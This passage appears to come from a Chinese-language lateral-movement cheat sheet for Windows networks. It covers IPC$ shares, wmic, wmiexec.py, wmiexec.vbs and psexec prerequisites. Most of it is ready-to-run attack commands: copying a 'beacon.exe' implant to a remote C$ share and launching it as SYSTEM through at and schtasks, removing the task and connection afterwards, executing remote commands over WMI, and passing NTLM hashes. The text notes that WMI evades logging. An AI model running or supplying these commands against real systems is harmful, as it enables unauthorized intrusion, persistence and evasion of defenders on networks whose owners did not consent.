 ##### 2.IPC连接

利用条件

```
1、目标机开启了139和445端口，且防火墙放行或关闭
2、目标主机管理员开启了ipc$默认共享；
3、知道目标机的账户密码。
```

`net use \\192.168.0.1\ipc$ "password" /user:"Administrator"` //建立连接

```
copy beacon.exe \\192.168.0.1\c$
at \\192.168.0.1 15:47 c:\beacon.exe

schtasks /create /s 192.168.0.1 /tn test /sc onstart /tr c:\beacon.exe /ru system /f //创建计划任务
schtasks /run /s 192.168.0.1 /i /tn "test" //运行计划任务
schtasks /delete /s 192.168.0.1 /tn "test" /f //删除计划任务

net use \\192.168.0.1 /del /y //删除ipc连接
```

##### 3.wmic

由于 Windows 默认不会将 WMI 的操作记录在日志里，因此 WMI 比 PsExec 隐蔽性要更好一些

```
1、WMI服务开启，端口135，默认开启。
2、防火墙允许135、445等端口通信。
3、知道目标机的账户密码。
4、防火墙放行相关端口或关闭
```

`wmic /node:192.168.0.1 /user:administrator /password:xxxxx  process call create "cmd.exe /c ipconfig>c:\result.txt"`//无回显输入到文件

`type \\192.168.0.1\c$\result.txt`

##### 4.wmiexec

`python3 wmiexec.py administrator:password@192.168.7.7`

`python3 wmiexec.py -hashes LMHash:NTHash 域名/用户名@目标IP`

##### 5.[wmiexec.vbs](http://github.com/k8gege/K8tools/blob/master/wmiexec.vbs)

wmiexec.vbs 脚本通过 VBS 调用 WMI 来模拟 PsExec 

`cscript //nologo wmiexec.vbs /shell 192.168.0.1 administrator password`

`cscript wmiexec.vbs /cmd 192.168.7.7 administrator password "ipconfig"`//执行单挑命令

##### 6.psexec

利用条件

```
1、445端口开放，防火墙放行445端口或关闭
2、知道账号密码
```
